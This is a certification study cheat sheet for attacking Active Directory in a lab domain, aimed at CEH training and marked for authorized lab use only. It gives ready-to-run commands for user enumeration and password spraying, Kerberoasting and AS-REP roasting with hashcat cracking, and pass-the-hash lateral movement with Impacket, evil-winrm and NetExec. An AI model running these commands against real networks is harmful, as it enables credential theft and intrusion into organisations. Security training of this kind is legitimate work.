

repository: morandeirachema/CyberCerts · page: certs/ceh/cheatsheets/active-directory/index.html · generator: mkdocs

# Active Directory Attacks

Quick reference for the AD attack chain (Impacket / NetExec / BloodHound / Certipy). Pairs with [Module 06](../modules/06-system-hacking/README.md), the [identity attack paths](../defender-pam/identity-attack-paths.md), and the [capstone](../labs/capstone.md). **Lab / authorized only.** Vars: `DC=192.168.56.30`, `DOMAIN=ceh.lab`, foothold `jdoe:'Passw0rd!'`.

> On Kali the Impacket tools are prefixed `impacket-*`. Kerberos is clock-sensitive — if you see `KRB_AP_ERR_SKEW`, sync time: `sudo ntpdate $DC` (or `rdate`), and point DNS at the DC.

## Enumerate
```bash
nxc smb $DC -u jdoe -p 'Passw0rd!' --users --groups --shares --pass-pol
nxc smb 192.168.56.0/24 -u jdoe -p 'Passw0rd!'          # spray/validate across a subnet
ldapsearch -x -H ldap://$DC -b "dc=ceh,dc=lab" "(objectClass=user)" sAMAccountName
bloodhound-python -u jdoe -p 'Passw0rd!' -d $DOMAIN -ns $DC -c all   # -> import .json into BloodHound
kerbrute userenum -d $DOMAIN --dc $DC users.txt         # valid users
kerbrute passwordspray -d $DOMAIN --dc $DC users.txt 'Spring2025!'
```

## Kerberos credential attacks
```bash
# Kerberoasting — crack service-account passwords (SPN accounts)
impacket-GetUserSPNs $DOMAIN/jdoe:'Passw0rd!' -dc-ip $DC -request -outputfile kerb.txt
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt

# AS-REP roasting — accounts with pre-auth disabled
impacket-GetNPUsers $DOMAIN/ -usersfile users.txt -dc-ip $DC -format hashcat -outputfile asrep.txt
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt
```
Hashcat modes: **13100** TGS-REP (Kerberoast) · **18200** AS-REP · **1000** NTLM · **5600** NetNTLMv2.

## Move laterally (with a password or a hash)
```bash
impacket-psexec  $DOMAIN/administrator@$TARGET               # asks password
impacket-psexec  $DOMAIN/administrator@$TARGET -hashes :<NThash>   # Pass-the-Hash
impacket-wmiexec $DOMAIN/administrator@$TARGET -hashes :<NThash>   # quieter than psexec
evil-winrm -i $TARGET -u administrator -H <NThash>          # WinRM shell via PtH
nxc smb $TARGET -u administrator -H <NThash> -x whoami       # run a command via PtH
```
